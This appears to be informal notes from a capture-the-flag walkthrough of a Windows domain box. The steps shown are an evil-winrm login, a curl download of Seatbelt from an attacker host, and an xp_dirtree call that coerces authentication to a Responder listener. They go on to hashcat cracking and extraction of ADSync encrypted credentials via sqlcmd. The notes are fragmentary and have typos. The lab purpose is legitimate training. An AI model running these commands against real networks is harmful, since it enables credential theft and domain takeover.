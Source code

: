 ```
evil-winrm -u mhope -p '<pass>' -i <ip>
```
- then after getting a shell
```
hostname; whoami; ipconfig
```
- download Seatbelt.exe (upload feature in winrm has some encoding issues)
```
curl 10.10.14.2:8000/Seatbelt.exe -o Seatbelt.exe
```
then we run the script
```
.\Seatbelt.exe -group=all
```
- we can see the applications installed in the output, we can see AzureAD connect
- then we can run winpeas too
- we see MSSQL running there, we can run PowerUpSQL to check that or try xpcmdshell, we can try to run `sqlcmd -L`, we can do
```
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name,create_data from sys.databases"
```
or just run PowerUPSQSL using IEX, we can see a cheatsheet [PowerUpSQL Cheat Sheet · NetSPI/PowerUpSQL Wiki · GitHub](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
we can do 
```shell
Get-SQLInstanceLocal -Verbose #does not work
Invoke-SQLAudit -Verbose #what works, this is in the privilege escalation part of the cheatsheet
```
- if we run the second, we will see that we can run `xp_dirtree`, so we can do 
```shell
sqlcmd -Q "xp_dirtree '\\10.10.14.2\test'"
```
while running 
```shell
sudo responder -I tun0
```
and we get a hash
- if we do 
```shell
hashcat --example-hashes | less
```
we can see the different hashes an their number
```shell
hashcat -m 5600 hashes/monteverde /opt/wordlist/rockyou.txt -r rules/best64.rule
```
but this didn't crack the hash we found
if there was another box, we would have relayed it
- if we do `whoami /all` we will see see we are Azure Admins
- we can search Azure connect privilege escalation
- in that XPN blog
- we will see that the ADSync database has a table `mms_management_agent` which contains a filed `private_configuration.xml`, so we can do
```shell
sqlcmd -Q "Use ADSync; select private_configuration_xml,encypted_configuration FROM mms_management_agent"
```
we also grabbed the `encypted_configuration` which contains and encrypted password
- try each line of the powershell script on your evil winrm to try to troubleshoot the issue
- and he changed the connection string and the script worked
- if we save the mcrypt.dll and file it we will see it is a .Net assembly
- copied the file to his commando vm and use DNSpy to decompile File >> Open
- since our DNS hostname query did not work initially, now we have admin we can check why in the powershell
```
Export-DNSServerZone -FileName MEGABANK.ZONE -Name MEGABANK.LOCAL
```